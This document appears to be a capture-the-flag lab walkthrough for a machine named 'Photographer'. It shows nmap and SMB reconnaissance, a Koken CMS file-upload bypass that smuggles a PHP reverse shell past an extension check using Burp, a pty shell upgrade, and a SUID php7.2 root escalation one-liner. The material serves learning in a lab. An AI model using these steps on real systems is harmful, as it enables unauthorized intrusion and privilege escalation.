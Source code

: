 # Photographer
## Recon:
### Scanning
* *  *
Finding ip address of the machine

`nmap -sn -oA host-discovery 192.168.10.*` 

`nmap -T4 -O -A -sV -p- -sS -Pn -n -vvv -oA scan1 192.168.10.51`
![](1.png)

`smbclient -L 192.168.10.51`

`smbclient \\\\192.168.10.51\\sambashare`
* * * 
### Enumeration

![](2.png)

`http://192.168.10.51:8000/`

this webpage is built with *koken cms*

so we search exploit for it

![](3.png)
 * *  *

### Gaining Access

`/usr/share/webshells/php/php-reverse-shell.php`

![](4.png)

`reverse-shell-php.php` rename with `.png` extension and uploaded to `http://192.168.10.51:8000/admin`

then start the burp proxy interceptoor. then remove .png extension from ‘name’ and 'filename'

once you upload the file then you get the address of the uploaded file in the right section SITE > Link > `http://192.168.10.51:8000/content/php-reverse-shell-2/`

![](5.png)

![](6.png)

`python -c "import pty;pty.spawn('/bin/bash')"`

user flag is here..!!!

![](7.png)

searching for SUID-GUID executables. 
here we get the *php*

![](8.png)

we search **php7.2** on **GTFOBins**
`/usr/bin/php7.2 -r "pcntl_exec('/bin/bash', ['-p']);"`

here we get the root flag

![](9.png)